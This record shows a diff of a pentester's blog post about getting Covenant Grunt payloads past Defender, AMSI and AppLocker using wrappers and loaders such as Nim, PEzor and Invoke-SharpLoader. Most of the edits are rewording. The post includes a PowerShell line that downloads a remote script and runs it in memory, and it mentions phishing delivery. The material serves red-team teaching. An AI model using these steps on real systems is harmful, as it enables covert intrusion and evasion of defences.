

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2021-01-16-Circumventing-Countermeasures-In-AD.md, in a window 1280 px wide and 1400 px high, scrolled down 3437 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-16-Circumventing-Countermeasures-In-AD.md

````diff
--- a/_posts/2021-01-16-Circumventing-Countermeasures-In-AD.md
+++ b/_posts/2021-01-16-Circumventing-Countermeasures-In-AD.md
@@ -74,13 +74,13 @@
 
 ![broken]({{ site.baseurl }}/images/2021-16-01/ThreatCheck.png "ThreatCheck")
 
-There are tools out there, that will do the job for you. Feel free to have a look at the [obfuscation section](https://github.com/LuemmelSec/Pentest-Tools-Collection#obfuscation) of my github repo, or just do some creative googling.
+There are tools out there, that will do the obfuscation job for you. Feel free to have a look at the [obfuscation section](https://github.com/LuemmelSec/Pentest-Tools-Collection#obfuscation) of my github repo, or just do some creative googling.
 
 ### Wrapping and decrypting code
 
-If you are actively following the InfoSec community on twitter, you will most probably stumble upon [byt3bl33d3r´s](https://twitter.com/byt3bl33d3r) [Offensive Nim repo](https://github.com/byt3bl33d3r/OffensiveNim).  This tool let´s you wrap your C# executable inside Nim and be compiled as C executable, thus hiding your content. Together with [s3cur3th1sh1t](https://twitter.com/ShitSecure) they even developed it further, so that you can decrypt your payload inside Nim, and have it decrypted at runtime in memory. This will make it way harder to impossible to reverse, if you have to put your files on disk, as decompiling will only reveal the encrypted C# stuff. To learn more on this you can check out [Playing-with-OffensiveNim](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/).
+If you are actively following the InfoSec community on twitter, you will most probably stumble upon [byt3bl33d3r´s](https://twitter.com/byt3bl33d3r) [Offensive Nim repo](https://github.com/byt3bl33d3r/OffensiveNim). These templates let you wrap your C# executable inside Nim and be compiled as C executable, thus hiding your content. Together with [s3cur3th1sh1t](https://twitter.com/ShitSecure) they even developed it further, so that you can have a decrypted payload inside the Nim binary, and have it decrypted at runtime in memory. This will make it way harder to impossible to reverse, if you have to put your files to disk, as decompiling will only reveal the encrypted C# stuff. To learn more on this you can check out [Playing-with-OffensiveNim](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/).
 
-There are also tools like [amber](https://github.com/EgeBalci/amber) or [PEzor](https://github.com/phra/PEzor), which will take C or C++ executables and reflectively load them into memory, adding some nice features like delayed execution too fool in memory scanners, avoiding AV user-land hooks and stuff. I don´t understand even half of the things that are going on here. But if you want to know more read [phra´s](https://twitter.com/phraaaaaaa) [blog](https://iwantmore.pizza/posts/PEzor.html) regarding PEZor.
+There are also tools like [amber](https://github.com/EgeBalci/amber) or [PEzor](https://github.com/phra/PEzor), which will take C or C++ executables and reflectively load them into memory, adding some nice features like delayed execution too fool in memory scanners or avoiding AV user-land hooks and stuff. I don´t understand even half of the things that are going on here. But if you want to know more read [phra´s](https://twitter.com/phraaaaaaa) [blog](https://iwantmore.pizza/posts/PEzor.html) regarding PEZor.
 
 All the above mentioned methods can possibly help you obfuscate your code, so you don´t have to deploy the out of the box tools.
 But be aware that by the time also the wrapper code will get flagged. I did a test with a simple ```hello world``` C executable wrapped with PEZor, and I got like 21 hits on VirusTotal.
@@ -88,18 +88,19 @@
 
 ### Not touching the disk
 
-Another approach is to try to not touch the disk with our malicious content, so that traditional AV is not able to catch us when reading from or writing to disk.
+Another approach is to try to not touch the disk with our malicious content, so that traditional AV is not able to catch us when reading or writing data.
 The most well known technique to me is to use PowerShell´s Invoke Expression feature. It will allow you to download a script from a remote source and execute it in memory.
 ```
 iex(new-object net.webclient).downloadstring('http://10.55.0.30/grunt.ps1')
 ```
 
-Another possibility is to use [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) from - *who would have thought it* - S3cur3Th1sSh1t.
+Another possibility is to use [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) from - *who would have thought it* - S3cur3Th1sSh1t, to load and execute C# directly into memory.
+
 Okay so let´s bypass Defender by not touching the disk and put our default Grunt payload directly into memory:
 
 ![broken]({{ site.baseurl }}/images/2021-16-01/ASMI_catch.png "AMSI Catch")
 
-Fuck! Something went wrong. Looks like we got catched by AMSI which detected a Covenant payload.
+*Fuck! Something went wrong. Looks like we got catched by AMSI which detected a Covenant payload.*
 
 We bypassed the signature based part of Defender for the filesystem stuff, but AMSI checked our script when we loaded it to memory, handed it over to Defender who then found the suspicious strings, flagging it as malicious.
 
@@ -110,14 +111,16 @@
 ![broken]({{ site.baseurl }}/images/2021-16-01/CSharp_AMSI_bypass.png "bypass")
 ![broken]({{ site.baseurl }}/images/2021-16-01/CSharp_AMSI_bypass_grunt.png "bypass")
 
-I failed hard for several times with all the amsi.fail bypasses for the Grunt payload. Talking to my boss (*you know the guy with the l33t name containing sh1t and stuff*) it turns out that for C# payloads - the 2nd stage of the Grunt payload which is C# - you need to have a bypass for C#. Holy moly, but that´s how it is.
+I failed hard for several times with all the [amsi.fail](https://amsi.fail) bypasses for the Grunt payload. Talking to my boss (*you know the guy with the l33t name containing sh1t and stuff*) it turns out that for C# payloads - the 2nd stage of the Grunt payload which is C# - you need to have a bypass for C#. Holy moly, but that´s how it is. Thank you sir.
 
-### Combining stuff
+### Chaining the tricks
 
-For obvious reasongs I also played with Nim, Invoke-SharpLoader, PEZor and all the other crazy stuff.
+For obvious reasons I played with Nim, Invoke-SharpLoader, PEZor and all the other crazy stuff.
 My attempts to combine the parts to chain a stealthy attack resulted in two approaches that look like the following:
 
 #### Grunt.exe -> Nim Wrapper -> PEZor -> local execution
+
+Just to try to avoid local detection when copied to disk.
 
 1. Create Grunt.exe
 ![broken]({{ site.baseurl }}/images/2021-16-01/Create_Grunt_exe.png "create Grunt")
@@ -141,11 +144,14 @@
 
 5. Deploy
 ![broken]({{ site.baseurl }}/images/2021-16-01/Covenant_PEZor_run.png "PEZor run")
+
+*Tada - Grunt incoming*
 ![broken]({{ site.baseurl }}/images/2021-16-01/Covenant_PEZor_success.png "PEZor success")
 
 #### AppLocker & Constrained language bypass -> Powershell load script -> AMSI bypass -> Invoke-SharpLoader -> Encrypted Grunt
 
-If there wasn´t the AppLocker bypass needed, one could also run this completely from remote, i.e. in a phishing campaing starting with a .htm which runs our loader script.
+If there wasn´t the AppLocker bypass needed, one could also run this completely from remote, i.e. in a phishing campaign starting with a .htm file or something liek this, which runs our loader script.
+The whole attack is carried out on a low priv account.
 
 1. Identify a way to bypass AppLocker and ConstrainedLanguage
 
@@ -163,7 +169,7 @@
 
 ![broken]({{ site.baseurl }}/images/2021-16-01/applocker_allow_dll.png  "Allow dll")
 
-We can see that the **Everyone** group is allowed to run stuff from **C:\Program Files (x86)\hMailServer\**
+We can see that the **Everyone** group is allowed to run stuff from **C:\Program Files (x86)\hMailServer\\**
 
 We can further check the ACLs on that folder with the following PS cmdlet:
 ```
````
